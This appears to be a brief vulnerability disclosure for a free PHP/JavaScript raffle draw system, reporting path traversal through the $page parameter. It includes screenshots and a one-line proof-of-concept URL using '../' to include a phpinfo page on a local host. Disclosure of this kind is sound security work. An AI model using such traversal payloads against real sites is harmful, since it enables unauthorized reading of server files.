vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/15951/raffle-draw-system-using-php-and-javascript-free-source-code.html

Vulnerability trigger parameter: $page

The process of vulnerability discovery is as follows：

![1674055132712](https://user-images.githubusercontent.com/30823782/213210410-fae4892e-8a9e-4673-aa09-3a6a2251967a.jpg)
exp
http://192.168.249.88/php-js-raffle-draw/index.php?page=../dashboard/phpinfo
![image](https://user-images.githubusercontent.com/30823782/213210535-76f45f3f-1347-4b2f-b7a2-b6153b78fa56.png)
